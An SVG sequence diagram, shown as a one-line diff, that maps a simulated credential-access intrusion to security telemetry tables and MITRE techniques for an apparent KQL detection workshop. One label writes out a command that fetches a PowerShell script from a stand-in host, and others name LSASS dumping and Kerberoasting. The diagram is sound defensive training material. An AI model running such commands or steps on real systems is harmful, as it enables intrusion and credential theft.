

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1200 900" font-family="ui-sans-serif, system-ui, -apple-system, 'Segoe UI', Roboto, sans-serif">
  <defs>
    <marker id="arrowSeq" viewBox="0 0 10 10" refX="9" refY="5" markerWidth="8" markerHeight="8" orient="auto">
      <path d="M0,0 L10,5 L0,10 z" fill="#cbd5e1" />
    </marker>
    <marker id="arrowSeqDashed" viewBox="0 0 10 10" refX="9" refY="5" markerWidth="7" markerHeight="7" orient="auto">
      <path d="M0,0 L10,5 L0,10 z" fill="#64748b" />
    </marker>
  </defs>
  <rect x="20" y="20" width="1160" height="860" rx="14" fill="#0b1220" stroke="#1f2937" stroke-width="1.5" />
  <text x="600" y="58" text-anchor="middle" fill="#f1f5f9" font-size="20" font-weight="700">Attack Storyline — Sequence View</text>
  <text x="600" y="80" text-anchor="middle" fill="#94a3b8" font-size="13">Midnight Blizzard credential-access intrusion · time flows top to bottom · telemetry deposits to ADX shown as dashed</text>
  <rect x="55" y="105" width="130" height="56" rx="8" fill="#3a1212" stroke="#ef4444" stroke-width="2" />
  <text x="120" y="128" text-anchor="middle" fill="#fecaca" font-size="13" font-weight="700">Attacker</text>
  <text x="120" y="146" text-anchor="middle" fill="#fca5a5" font-size="10">Midnight Blizzard</text>
  <rect x="205" y="105" width="130" height="56" rx="8" fill="#3a1d05" stroke="#f97316" stroke-width="2" />
  <text x="270" y="128" text-anchor="middle" fill="#fed7aa" font-size="13" font-weight="700">Entra ID</text>
  <text x="270" y="146" text-anchor="middle" fill="#fdba74" font-size="10">SigninLogs</text>
  <rect x="355" y="105" width="130" height="56" rx="8" fill="#3a1d05" stroke="#f97316" stroke-width="2" />
  <text x="420" y="128" text-anchor="middle" fill="#fed7aa" font-size="13" font-weight="700">MS Graph</text>
  <text x="420" y="146" text-anchor="middle" fill="#fdba74" font-size="10">Graph + CloudApp</text>
  <rect x="505" y="105" width="130" height="56" rx="8" fill="#0f3a1f" stroke="#22c55e" stroke-width="2" />
  <text x="570" y="128" text-anchor="middle" fill="#bbf7d0" font-size="13" font-weight="700">WIN11-04</text>
  <text x="570" y="146" text-anchor="middle" fill="#86efac" font-size="10">MDE endpoint</text>
  <rect x="655" y="105" width="130" height="56" rx="8" fill="#0b2a4a" stroke="#3b82f6" stroke-width="2" />
  <text x="720" y="128" text-anchor="middle" fill="#dbeafe" font-size="13" font-weight="700">DC01 / DC02</text>
  <text x="720" y="146" text-anchor="middle" fill="#93c5fd" font-size="10">MDI sensors</text>
  <rect x="805" y="105" width="130" height="56" rx="8" fill="#0b2a4a" stroke="#3b82f6" stroke-width="2" />
  <text x="870" y="128" text-anchor="middle" fill="#dbeafe" font-size="13" font-weight="700">AADCONNECT01</text>
  <text x="870" y="146" text-anchor="middle" fill="#93c5fd" font-size="10">Entra Connect</text>
  <rect x="955" y="105" width="170" height="56" rx="8" fill="#0f172a" stroke="#94a3b8" stroke-width="2" />
  <text x="1040" y="128" text-anchor="middle" fill="#f1f5f9" font-size="13" font-weight="700">Azure Data Explorer</text>
  <text x="1040" y="146" text-anchor="middle" fill="#cbd5e1" font-size="10">CyberDefenseKqlWorkshop</text>
  <line x1="120" y1="161" x2="120" y2="820" stroke="#475569" stroke-width="1" stroke-dasharray="3 4" />
  <line x1="270" y1="161" x2="270" y2="820" stroke="#475569" stroke-width="1" stroke-dasharray="3 4" />
  <line x1="420" y1="161" x2="420" y2="820" stroke="#475569" stroke-width="1" stroke-dasharray="3 4" />
  <line x1="570" y1="161" x2="570" y2="820" stroke="#475569" stroke-width="1" stroke-dasharray="3 4" />
  <line x1="720" y1="161" x2="720" y2="820" stroke="#475569" stroke-width="1" stroke-dasharray="3 4" />
  <line x1="870" y1="161" x2="870" y2="820" stroke="#475569" stroke-width="1" stroke-dasharray="3 4" />
  <line x1="1040" y1="161" x2="1040" y2="820" stroke="#475569" stroke-width="1" stroke-dasharray="3 4" />
  <text x="40" y="200" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+0</text>
  <text x="40" y="270" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+5m</text>
  <text x="40" y="350" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+15m</text>
  <text x="40" y="445" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+22m</text>
  <text x="40" y="530" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+35m</text>
  <text x="40" y="610" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+50m</text>
  <text x="40" y="695" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+73m</text>
  <text x="40" y="775" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">T+81m</text>
  <line x1="120" y1="200" x2="265" y2="200" stroke="#cbd5e1" stroke-width="1.8" marker-end="url(#arrowSeq)" />
  <text x="190" y="192" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">1 · Compromised sign-in (MFA)</text>
  <text x="190" y="216" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">victor.alvarez · 185.225.73.18</text>
  <line x1="270" y1="232" x2="1035" y2="232" stroke="#64748b" stroke-width="1.2" stroke-dasharray="5 4" marker-end="url(#arrowSeqDashed)" />
  <text x="650" y="226" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">SigninLogs · EntraIdSignInEvents</text>
  <line x1="120" y1="270" x2="415" y2="270" stroke="#cbd5e1" stroke-width="1.8" marker-end="url(#arrowSeq)" />
  <text x="265" y="262" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">2 · OAuth consent + Graph enumeration</text>
  <text x="265" y="286" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">malicious app · Mail.Read · Files.Read.All</text>
  <line x1="420" y1="302" x2="1035" y2="302" stroke="#64748b" stroke-width="1.2" stroke-dasharray="5 4" marker-end="url(#arrowSeqDashed)" />
-   <text x="725" y="296" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">GraphApiAuditEvents · CloudAppEvents</text>
+   <text x="725" y="296" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">GraphAPIAuditEvents · CloudAppEvents</text>
  <line x1="120" y1="350" x2="565" y2="350" stroke="#cbd5e1" stroke-width="1.8" marker-end="url(#arrowSeq)" />
  <text x="340" y="342" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">3 · PowerShell staging on endpoint</text>
  <text x="340" y="366" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">iwr cdn.update-check.example/a.ps1 · drops to C:\ProgramData\wrstage</text>
  <line x1="570" y1="382" x2="1035" y2="382" stroke="#64748b" stroke-width="1.2" stroke-dasharray="5 4" marker-end="url(#arrowSeqDashed)" />
  <text x="800" y="376" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">DeviceProcessEvents · DeviceNetworkEvents</text>
  <line x1="120" y1="445" x2="565" y2="445" stroke="#cbd5e1" stroke-width="1.8" marker-end="url(#arrowSeq)" />
  <text x="340" y="437" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">4 · Registry · SAM · browser · LSASS · password stores</text>
  <text x="340" y="461" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">T1552.002 · T1003.002 · T1555.003 · T1003.001 · T1555</text>
  <line x1="570" y1="478" x2="1035" y2="478" stroke="#64748b" stroke-width="1.2" stroke-dasharray="5 4" marker-end="url(#arrowSeqDashed)" />
  <text x="800" y="472" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">DeviceProcessEvents · DeviceFileEvents · DeviceRegistryEvents</text>
  <line x1="570" y1="530" x2="715" y2="530" stroke="#cbd5e1" stroke-width="1.8" marker-end="url(#arrowSeq)" />
  <text x="640" y="522" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">5 · Kerberoasting from WIN11-04</text>
  <text x="640" y="546" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">Rubeus · LDAP SPN search · RC4 ticket request · T1558.003</text>
  <line x1="720" y1="562" x2="1035" y2="562" stroke="#64748b" stroke-width="1.2" stroke-dasharray="5 4" marker-end="url(#arrowSeqDashed)" />
  <text x="877" y="556" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">IdentityQueryEvents · IdentityLogonEvents</text>
  <line x1="570" y1="610" x2="1035" y2="610" stroke="#a855f7" stroke-width="1.8" stroke-dasharray="6 3" marker-end="url(#arrowSeqDashed)" />
  <text x="800" y="602" text-anchor="middle" fill="#e9d5ff" font-size="11" font-weight="600">6 · Defender XDR fires alerts (MB-001 → MB-005)</text>
  <text x="800" y="626" text-anchor="middle" fill="#d8b4fe" font-size="10" font-style="italic">AlertInfo · AlertEvidence populated for the credential-access chain</text>
  <line x1="570" y1="695" x2="865" y2="695" stroke="#cbd5e1" stroke-width="1.8" marker-end="url(#arrowSeq)" />
  <text x="717" y="687" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">7 · Service-account lateral move</text>
  <text x="717" y="711" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">svc_sql · WinRM 5985 · cracked Kerberoast hash</text>
  <line x1="870" y1="727" x2="1035" y2="727" stroke="#64748b" stroke-width="1.2" stroke-dasharray="5 4" marker-end="url(#arrowSeqDashed)" />
  <text x="952" y="721" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">DeviceLogonEvents</text>
  <line x1="870" y1="775" x2="725" y2="775" stroke="#cbd5e1" stroke-width="1.8" marker-end="url(#arrowSeq)" />
  <text x="797" y="767" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">8 · Directory recon</text>
  <text x="797" y="791" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">svc_azureadconnect delegation read</text>
  <line x1="870" y1="805" x2="1035" y2="805" stroke="#64748b" stroke-width="1.2" stroke-dasharray="5 4" marker-end="url(#arrowSeqDashed)" />
  <text x="952" y="799" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">IdentityDirectoryEvents</text>
  <text x="600" y="850" text-anchor="middle" fill="#94a3b8" font-size="11" font-style="italic">Solid arrows = attacker actions · Dashed arrows = telemetry deposits to ADX · Purple = Defender XDR alerts</text>
  <text x="600" y="868" text-anchor="middle" fill="#64748b" font-size="11" font-style="italic">Tactic: Credential Access · MITRE techniques: T1552.002 · T1003.001 · T1003.002 · T1555 · T1555.003 · T1558.003</text>
</svg>
